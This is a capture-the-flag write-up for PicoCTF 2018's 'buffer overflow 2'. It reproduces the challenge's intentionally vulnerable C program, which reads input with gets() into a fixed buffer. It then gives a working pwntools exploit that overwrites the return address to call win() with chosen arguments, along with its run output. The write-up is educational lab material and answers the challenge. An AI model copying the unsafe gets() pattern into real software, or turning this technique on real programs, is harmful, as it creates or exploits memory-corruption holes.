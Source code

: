 ```yaml
---
title: Calling a function with args
description: Exploiting a buffer overflow to call a function with specific arguments.
---
```


# Buffer Overflow - Calling a function with args

## Summary

Exploiting a buffer overflow to call a function with specific arguments.

## Challenge

### Statement

!!! note ""
    Challenge : buffer overflow 2 from PicoCTF 2018.

Alright, this time you’ll need to control some arguments. Can you get the flag from this program?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Answer

```shell
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f2f6cce698b62f5109de9955c0ea0ab832ea967c, not stripped
```

The goal of this challenge is to call the **win** function with the two arguments, **0xDEADBEEF** and **0xDEADC0DE**. As you have probably noticed, the **vuln** function is vulnerable to a buffer overflow attack which allows us to rewrite **EIP** and thus call the **win** function. We can pass it the two required arguments using the stack as we are in 32 bits.

| Stack          |
| :------------: |
| EIP            |
| Return address |
| Argument n°1   |
| Argument n°2   |
| ...            |

```python linenums="1"
#!/usr/bin/env python3
from pwn import process, p32, ELF

# Run the binary
PROGRAM = "./vuln"
p = process(PROGRAM)

# Setup the payload
elf = ELF(PROGRAM)
win_func_addr = p32(elf.symbols["win"])
arg1 = p32(0xDEADBEEF)
arg2 = p32(0xDEADC0DE)
padding = ("A" * (100 + 12)).encode() # BUFSIZE + stuff we do not care about
padding2 = ("A" * 4).encode() # Override the return address

payload = padding + win_func_addr + padding2 + arg1 + arg2

# Sending the payload
p.sendlineafter("your string: \n", payload)
p.interactive()
```

Execution :

```shell
$ echo "ggflag" > flag.txt
$ python3 solve.py 
[+] Starting local process './vuln': pid 13568
[*] '/home/xxx/pico/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅\x04AAAAﾭ\xde\xde\xc0\xad\xde
ggflag
[*] Got EOF while reading in interactive
$ 
```
